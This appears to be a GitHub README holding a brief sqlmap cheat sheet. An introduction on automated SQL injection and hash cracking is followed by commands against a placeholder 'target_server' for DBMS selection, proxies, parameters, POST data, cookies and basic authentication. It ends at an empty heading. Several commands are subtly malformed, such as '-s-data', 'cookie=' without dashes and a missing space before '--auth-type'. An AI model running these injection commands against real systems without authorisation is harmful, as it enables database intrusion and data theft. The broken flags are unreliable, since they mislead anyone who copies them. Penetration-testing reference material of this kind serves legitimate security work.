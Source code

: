 
# INTRODUCTION

SQLMap is a python open source Cyber Security testing tool that helps automate the process of exploiting SQL injection vulnerabilities.  It features many options to help you in your testing including support for the following: MySQL, Microsoft SQL Server, Oracle, Firebird, SAP MaxDB, Redshift, Mckoi, Presto, MimerSQL, SQLite, Apache Ignite, FrontBase, and many more. It also supports 6 injection types such as error-based, time-based blind, union query, Boolean-based blind. This tool can also detect password hashes and support for breaking them using a dictionary attack. Below I will provide you with a helpful sqlmap cheat sheet to help you when you are doing your testing.


# Sqlmap_cheatsheet by Mangal Lopchan


# Simple usage

    sqlmap -u “http://target_server/”

# Specify target DBMS to MySQL

    sqlmap -u “http://target_server/” --dbms=mysql

# Using a proxy

    sqlmap -u “http://target_server/” --proxy=http://proxy_address:port

# Specify param1 to exploit

    sqlmap -u “http://target_server/param1=value1&param2=value2” -p param1

# Use POST requests

    sqlmap -u “http://target_server” --data=param1=value1&param2=value2

# Access with authenticated session

    sqlmap -u “http://target_server” --data=param1=value1&param2=value2 -p param1 cookie=’my_cookie_value’

# Basic authentication

    sqlmap -u “http://target_server” -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password

# Evaluating response strings
